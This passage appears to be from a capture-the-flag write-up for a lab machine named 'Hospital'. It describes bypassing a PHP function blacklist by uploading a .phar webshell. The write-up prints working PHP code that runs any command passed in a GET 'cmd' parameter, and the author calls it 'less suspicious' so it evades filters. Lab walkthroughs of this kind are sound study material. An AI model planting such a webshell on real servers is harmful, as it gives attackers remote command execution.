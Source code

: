 <script>
function copyToClipboard(btn) {
    const code = btn.closest('.terminal-container').querySelector('code').textContent;
    navigator.clipboard.writeText(code).then(() => {
        btn.innerHTML = '<svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><polyline points="20 6 9 17 4 12"></polyline></svg>';
        setTimeout(() => {
            btn.innerHTML = '<svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><rect x="9" y="9" width="13" height="13" rx="2" ry="2"></rect><path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1"></path></svg>';
        }, 1500);
    });
}
</script>

<img src="https://i.ibb.co/DP5RTtcx/4.jpg" alt="Hospital" width="750">

## Web Shell in SSH as www-data

### Upload function

We upload a basic PentestMonkey PHP webshell as .phar. However, the shell doesn't work — the connection dies immediately.

<img src="https://i.ibb.co/zTv7kjbt/5.png" alt="Hospital" width="650">

Some PHP functions seem to be blacklisted. We craft a less suspicious reverse shell, and it successfully executes.

<img src="https://i.ibb.co/MDZmxRrK/6.png" alt="Hospital" width="650">

<div class="terminal-container">
    <div class="terminal-header">
        <span class="terminal-dot red"></span>
        <span class="terminal-dot yellow"></span>
        <span class="terminal-dot green"></span>
        <span class="terminal-title">revshellworking.phar | less suspicious reverse shell</span>
        <button class="copy-btn" onclick="copyToClipboard(this)">
            <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round">
                <rect x="9" y="9" width="13" height="13" rx="2" ry="2"></rect>
                <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1"></path>
            </svg>
        </button>
    </div>
    <div class="terminal-body">
        <pre><code class="language-bash"><?php
$cmd = isset($_GET['cmd']) ? $_GET['cmd'] : '';
if ($cmd) {
    $handle = popen($cmd, "r");
    while (!feof($handle)) {
        echo fgets($handle);
    }
    fclose($handle);
}
> # Add ? before > at the end</code></pre>
    </div>
</div>
